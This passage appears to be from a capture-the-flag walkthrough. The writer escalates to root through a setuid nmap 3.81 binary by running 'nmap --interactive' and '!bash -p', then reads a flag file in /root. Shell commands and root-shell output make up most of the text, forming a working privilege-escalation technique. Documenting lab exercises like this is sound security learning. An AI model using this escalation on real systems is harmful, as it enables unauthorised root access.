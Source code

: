     nmap version 3.81 ( http://www.insecure.org/nmap/ )  
    

  
Nmap isn't expected to have a setuid bit, I realized it's vulnerable to a priv
escalation vulnerability: https://gist.github.com/dergachev/7916152  
  

    
    
    $ nmap --interactive  
    nmap --interactive  
      
    Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )  
    Welcome to Interactive Mode -- press h <enter> for help  
    nmap> !whoami  
    !whoami  
    root  
    waiting to reap child : No child processes  
    nmap> !bash -p  
    !bash -p  
    bash-4.3# whoami  
    whoami  
    root  
    bash-4.3# cd /root  
    cd /root  
    bash-4.3# ls -al  
    ls -al  
    total 32  
    drwx------  3 root root 4096 Nov 13  2015 .  
    drwxr-xr-x 22 root root 4096 Sep 16  2015 ..  
    -rw-------  1 root root 4058 Nov 14  2015 .bash_history  
    -rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc  
    drwx------  2 root root 4096 Nov 13  2015 .cache  
    -rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done  
    -r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt  
    -rw-r--r--  1 root root  140 Feb 20  2014 .profile  
    -rw-------  1 root root 1024 Sep 16  2015 .rnd  
    bash-4.3# cat key-3-of-3.txt     
    cat key-3-of-3.txt  
    04787ddef27c3dee1ee161b21670b4e4  
    

  
Aaand we're done! Quite simple one.  
  
_Currently listening to [Agalloch - Summerisle
Reprise](https://www.youtube.com/watch?v=jP_H09VUZ8I)_

